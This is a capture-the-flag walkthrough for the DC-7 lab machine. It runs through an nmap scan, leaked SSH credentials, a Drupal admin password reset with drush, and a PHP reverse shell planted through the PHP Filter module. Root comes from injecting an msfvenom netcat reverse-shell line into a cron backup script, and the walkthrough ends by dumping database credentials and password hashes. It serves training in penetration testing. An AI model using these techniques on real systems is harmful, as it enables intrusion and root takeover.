

# DC: 7

### Nmap Scan

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 d0:02:e9:c7:5d:95:32:ab:10:99:89:84:34:3d:1e:f9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC5g/MV8SKReCc0Gw4yd38cdGBhSqaTIJMLAnLw9JBrzA78gPe+oE2rRjcGXwlCmHXE+rifBo/Sfevqn9oZr3Q4Yw8Z4UdGX6vVRJdJC85
|   256 d0:d6:40:35:a7:34:a9:0a:79:34:ee:a9:6a:dd:f4:8f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBGLAcHcmt/EqgpHTXiRYUz1jpyaUPhH7vWGjI3TaWgiCLS2yPkybhc23zlAVOe+ONWbfODzl2kvYqYWVpL8LLpw=
|   256 a8:55:d5:76:93:ed:4f:6f:f1:f7:a1:84:2f:af:bb:e1 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGHn1jYZNKIRzAqAeRJNZ9nsACR/xXaQSryHGEjSsQfQ

80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 22 disallowed entries 
| /core/ /profiles/ /README.txt /web.config /admin/ 
| /comment/reply/ /filter/tips /node/add/ /search/ /user/register/ 
| /user/password/ /user/login/ /user/logout/ /index.php/admin/ 
| /index.php/comment/reply/ /index.php/filter/tips /index.php/node/add/ 
| /index.php/search/ /index.php/user/password/ /index.php/user/register/ 
|_/index.php/user/login/ /index.php/user/logout/
|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
|_http-generator: Drupal 8 (https://www.drupal.org)
|_http-title: Welcome to DC-7 | D7
| http-methods: 
|_  Supported Methods: GET POST HEAD OPTIONS
|_http-server-header: Apache/2.4.25 (Debian)
```

---

### Website


---

### OSINT → **@DC7USER**

- There is a hint on the index page `think "outside" the box.`
- After lot of research, find something interesting.
- There is a github account for user @dc7user


```
username = dc7user
password = MdR3xOgB7#dW
```

---

### SSH Login

- we can login SSH using above credentials.


---

### SSH Explore

- After successfully login SSH we can see `backup` & `mbox`



- There is a interesting script
- A script that creates a backup archive and encrypts it every 15 minutes.
    - `/opt/script/backup.sh`


---

### **Drush Explore**

- Here we can see they use `drush`
    - drush → also know as Drupal Shell
- After searching a lot we find a way to set a password for a user.


```bash
## set the new password for user admin 
drush user:password admin --password pass1
```


---

### Privilege Escalation

- After login as a admin we can add modules to get a reverse shell.
- To do this we need a project
- `https://www.drupal.org/project/php/releases/8.x-1.0`
- Download this php-project
    - first we need the `.tar.gz` file and upload
    
    
    
    - Go to →  `Extend` then→ `Install new module`
    
    
    
    - Next scroll down page and enable → `Filters` → `PHP Filter`
    
    
    
    - Last go to → `http://Ip/node/add/page`
    - Create a page and Upload PHP Reverse Shell
    - you can use **`https://github.com/pentestmonkey/php-reverse-shell`**
    
    
    
    - Make sure you change the → `Text format` to `PHP code`
    - Make sure your netcat is listening.
    
    
    

- Now we need a root access to get that.
    - we know that `backups.sh` has a write permission and it executes file every 15 times regularly.
    - so need a reverse payload to get a root access
    
    ```bash
    msfvenom -p cmd/unix/reverse_netcat lhost=<yout_IP> lport=8080 R
    ```
    
    
    
    - The payload is ready we need to insert this payload in `backups.sh` file
    
    ```bash
    ## Save this into /opt/scripts/backups.sh
    mkfifo /tmp/eukxkf; nc 192.168.163.65 8080 0</tmp/eukxkf | /bin/sh >/tmp/eukxkf 2>&1; rm /tmp/eukxkf
    ```
    
    
    
    - Make sure your netcat is listening
    - **Note: It Might Take Few Minutes To Work.**
    
- And Finally We Are Root


- Read the root flag


---

## IMP NOTES

<aside>
💡

### This machine may contain a rabbit hole—perhaps none at all, or just a long path to access the system.

</aside>

- Run `linpeas.sh` to get a more information about the system.
- and we find out there is a `mysql`
    - `/var/www/html/sites/default/settings.php`  → find mysql creds

```
username = db7user
password = yNv3Po00
host' = localhost
```

```bash
mysql -u 'db7user' -p -h 'localhost'
```


- username & password

```
admin:$S$Ead.KmIcT/yfKC.1H53aDPJasaD7o.ioEGiaPy1lLyXXAJC/Qi4F
dc7user:$S$EKe0kuKQvFhgFnEYMpq.mRtbl/TQ5FmEjCDxbu0HIHaO0/U.YFjI
```

- Possible the used hash is → `BigCrypt, JtR: bigcrypt`


- Try John-The-Ripper to crack the password
- Also this process make take lot of time to crack the password
- Or there is no grantee that works.